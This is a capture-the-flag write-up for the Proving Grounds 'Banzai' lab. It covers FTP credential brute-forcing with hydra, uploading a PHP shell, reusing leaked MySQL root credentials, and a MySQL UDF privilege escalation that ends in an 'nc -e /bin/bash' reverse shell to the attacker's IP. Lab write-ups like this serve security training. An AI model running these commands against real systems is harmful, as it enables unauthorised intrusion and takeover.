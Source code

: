 ```yaml
---
title: "Proving grounds Practice: Banzai"
layout: post
date: 2024-01-15 02:00
categories: writeup
---
```


Proving grounds Practice - Banzai CTF writeup.

# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
5432/tcp open  postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open  http       Apache httpd 2.4.25
8295/tcp open  http       Apache httpd 2.4.25 ((Debian))
```

## 21/tcp   open  ftp        vsftpd 3.0.3

anonymous login prohibited
user:system - failed

Crack the password using hydra.

```sh
naveenj@hackerspace:|10:55|~/proving_grounds/Banzai$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.217.56
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-21 10:57:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://192.168.217.56:21/
[21][ftp] host: 192.168.217.56   login: admin   password: admin
```

## Login to FTP server

- upload php shell and trigger it to get initial foothold.
- Try reverse connection port as 22.

Found Database credentials.php

```text
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
```

## Privilege Escalation

Download exploit

- https://www.exploit-db.com/exploits/1518

Connect to mysql db

```sh
ww-data@banzai:/var/www/html$ mysql -uroot -pEscalateRaftHubris123
mysql -uroot -pEscalateRaftHubris123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.30 MySQL Community Server (GPL)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

## Download precompiled lib from metasploit

- https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql

upload through ftp

```sh
mysql> use mysql;	#select db
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);		#create table
create table trenchesofit(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));	#upload exploit lib
insert into trenchesofit values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';	#upload exploit to mysql lib
select * from trenchesofit into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
Query OK, 1 row affected (0.03 sec)

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';	#use lib
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select sys_exec('nc -e /bin/bash 192.168.45.160 22');	#exec command
select sys_exec('nc -e /bin/bash 192.168.45.160 22');
```

![img](/assets/images/CTF/Proving_Grounds/Banzai/root.png)

**Root Obtained**

## Important Takeaway
- The lib file has to be place in /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so folder else the exploit won't work.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).